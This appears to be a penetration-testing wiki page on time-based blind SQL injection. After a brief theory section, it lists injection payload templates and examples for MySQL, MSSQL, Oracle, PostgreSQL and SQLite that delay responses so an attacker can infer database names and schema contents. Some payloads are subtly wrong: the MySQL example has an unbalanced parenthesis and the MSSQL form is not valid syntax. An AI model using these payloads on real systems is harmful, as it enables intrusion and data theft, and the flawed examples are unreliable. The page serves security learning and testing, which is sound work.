 # Time Based

## Theory

Time-based SQL injection is a technique that relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to force the database to wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1' AND IF (YOUR-CONDITION-HERE, sleep(3),'false')-- -
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Time Based  
1' AND IF (SELECT LENGTH(database()))=1, sleep(3),'false')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1' AND IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'-- 
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Time Based  
1' AND IF ((SELECT LEN(DB_NAME()))=1) WAITFOR DELAY '0:0:10'-- 
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Time Based  
1' AND CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Time Based  
1' AND CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Time Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```
{% endtab %}
{% endtabs %}
